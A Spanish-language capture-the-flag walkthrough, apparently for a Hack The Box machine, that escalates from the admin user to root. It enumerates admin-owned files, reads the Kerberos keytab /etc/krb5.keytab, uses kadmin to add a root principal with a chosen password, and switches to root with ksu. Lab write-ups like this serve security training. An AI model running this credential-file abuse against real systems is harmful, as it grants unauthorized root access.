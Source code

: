 Ahora que estamos conectados como admin miramos como nos podemos pasar a root


```bash
cd /
find / -type f -user admin 2>/dev/null
find / -type f -user admin 2>/dev/null | grep -v "proc"
find / -type f -user admin 2>/dev/null | grep -v -E "proc|cgroup"
find / -type f -group admin 2>/dev/null | grep -v -E "proc|cgroup"
```

Encontramos un fichero 
```bash
 /etc/krb5.keytab 
```


```bash
cat /etc/krb5.keytab
file /etc/krb5.keytab
```

Si buscamos lo que es por internet vemos que hay una via potencial de rootear esta maquina usando este fichero. La idea aqui seria
de crear un nuevo principal al usuario root cambiandole la contraseña.

```bash
klist -k /etc/krb5.keytab
kadmin -h
kadmin -kt /etc/krb5.keytab
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
?
addprinc root@REALCORP.HTB
password: test123
reenter password: test123
exit
```

Si ahora lanzamos 

```bash
ksu
Kerberos password for root@REALCORP.HTB: test123
whoami

#Output
root
```

Ya somos root y podemos leer la flag
